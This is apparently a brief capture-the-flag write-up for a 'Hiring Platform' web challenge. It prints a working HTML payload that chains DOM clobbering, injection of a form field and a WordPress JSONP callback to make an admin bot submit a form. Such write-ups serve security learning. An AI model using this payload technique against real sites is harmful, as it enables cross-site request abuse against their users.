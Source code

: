 # Hiring Platform

using dom clobbering to turn on production mode and using html injection to inject a parameter in the form and using jsonp endpoint of wordpress site present in /blog we get make the bot click on the button and get the flag in our account.

```html
<a id="PRODUCTION"></a>
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'>
</script>"></iframe>
```
